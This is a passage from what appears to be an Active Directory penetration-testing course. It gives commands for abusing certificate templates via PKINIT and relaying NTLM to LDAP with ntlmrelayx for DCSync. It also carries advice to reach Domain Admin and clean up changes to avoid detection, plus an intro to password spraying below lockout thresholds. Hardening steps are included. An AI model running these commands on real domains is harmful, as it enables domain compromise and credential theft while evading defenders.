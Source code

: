     ```
    
-   **Authenticated Users Enroll**: Request and use user certificate for PKINIT
    
    ```powershell
    certreq -submit -attrib "CertificateTemplate:User" user.inf user.cer
    kinit -k -t user.cer user@LAB.LOCAL
    
    ```
    
-   **Missing LDAPS signing**: Relay NTLMv2 to LDAP for DCSync
    
    ```bash
    ntlmrelayx.py -t ldap://dc1.lab.local --escalate-method drsuapi
    
    ```
    

----------

### Mitigation & Hardening

-   Remove “Allow log on locally” from Everyone.
    
-   Strip GenericAll/WriteDacl from non-admins.
    
-   Restrict certificate-template Enroll/Autoenroll.
    
-   Enforce LDAP signing/channel binding via GPO.
    

----------

### Next Steps

-   Use misconfigurations to gain SYSTEM or Domain Admin.
    
-   Clean up persistent GPO and ACL changes to reduce detection.
    

----------
## <a name="module-9"></a> Module 9: Password Spraying (Building Target Lists; Linux & Windows)

_Refine user lists and perform password spraying from both Linux and Windows platforms._

### Key Concepts

-   **Password Spraying**  
    Trying a single (or small set of) common password(s) against many accounts to avoid lockouts. Like testing the same key on many locks rather than many keys on one lock.
    
-   **Target List**  
    A curated list of usernames focused by role, group membership, or organizational unit—enabling more efficient attacks than blind spraying.
    
-   **Account Lockout**  
    A defense that temporarily blocks accounts after a threshold of failed attempts. Proper spraying stays below this threshold.
    